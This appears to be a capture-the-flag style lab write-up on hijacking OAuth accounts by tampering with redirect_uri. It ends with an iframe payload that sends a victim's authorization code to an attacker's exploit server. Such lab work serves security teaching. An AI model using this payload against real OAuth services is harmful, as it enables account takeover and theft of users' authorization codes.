







# OAuth account hijacking via redirect_uri
# Objective
This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete the user `carlos`.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: `wiener:peter`

# Solution
## Analysis
Website uses OAuth to allow users to log with their social account.

||
|:--:| 
| *OAuth exchange - standard redirect_uri* |


## Exploitation
Modification of `redirect_uri` value in initial OAuth request result in browser making request to provided domain with authorization code. If users opens provided payload, it will complete OAuth process and send authorization code to attacker domain.

||
|:--:| 
| *Test - Modification of redirect_uri* |
|
| *Test - Request to exploit server with authorization code* |
|
| *Exploit server configuration* |
|
| *Account hijacking - victim's authorization code* |
|
| *Account hijacking - Using stolen authorization code* |
|
| *Deletion of user carlos* |

Exploit server configuration:
```html
<iframe src="https://oauth-0af1005a046c9e42830912c3024200bc.oauth-server.net/auth?client_id=myca7uz04ok1nk1jmjr4n&redirect_uri=https://exploit-0ad400e2049c9e4c83ed1363013900c1.exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email"></iframe>
```